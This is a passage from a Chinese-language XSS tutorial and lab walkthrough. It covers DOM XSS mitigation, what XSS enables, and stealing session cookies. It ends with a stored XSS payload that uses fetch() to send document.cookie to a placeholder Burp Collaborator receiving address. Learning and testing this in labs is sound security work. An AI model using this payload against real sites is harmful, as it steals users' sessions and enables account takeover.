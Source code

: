 - $.parseHTML()
### <a class="reference-link" name="%E5%A6%82%E4%BD%95%E7%BC%93%E8%A7%A3DOM%20XSS%E6%BC%8F%E6%B4%9E%EF%BC%9F"></a>如何缓解DOM XSS漏洞？

因为上面讲了，存在很多可以触发DOM XSS的source和sink对，那我们缓解这种漏洞的措施就是尽量阻止任何不受信任的source和sink操作。

### <a class="reference-link" name="XSS%E5%8F%AF%E4%BB%A5%E7%94%A8%E6%9D%A5%E5%81%9A%E4%BB%80%E4%B9%88%EF%BC%9F"></a>XSS可以用来做什么？
- 冒用受害者身份
- 执行受害者能够执行的任何操作
- 访问受害者能访问的任何数据
- 窃取用户登录凭证
- 篡改网页内容
- 向网页挂马
### <a class="reference-link" name="XSS%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8"></a>XSS漏洞的利用

### <a class="reference-link" name="%E5%88%A9%E7%94%A8XSS%E7%AA%83%E5%8F%96cookie"></a>利用XSS窃取cookie

有些应用程序仅使用cookie进行会话处理，所以我们可以利用XSS窃取受害者的cookie然后将其发到指定的地址，然后可以通过替换cookie的方式伪装成受害者进行操作，但是这种利用手段还是存在一些失败的可能性的
- 受害者可能并未登录
- 有些应用程序通过HttpOnly标志对JS隐藏cookie
- 有些应用程序可能将会话与某些唯一标识信息(如IP)绑定
- 会话可能已过期
### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8XSS%E7%AA%83%E5%8F%96cookie"></a>配套靶场：利用XSS窃取cookie

我们先在burp collaborator复制一个临时的接收地址

[![](https://p3.ssl.qhimg.com/t01fc98bb57f7e5213b.png)](https://p3.ssl.qhimg.com/t01fc98bb57f7e5213b.png)

然后我们在评论点构造payload，使用fetch函数发出POST请求，设置请求主体为当前用户的cookie，然后发送到临时的接收地址

[![](https://p2.ssl.qhimg.com/t01546acf4f837ca021.png)](https://p2.ssl.qhimg.com/t01546acf4f837ca021.png)

```
&lt;script&gt;
    fetch(
        '[临时的接收地址]',`{`
            methoed:'POST',
            mode:'no-cors',
            body:document.cookie
        `}`
    );
&lt;/script&gt;
```
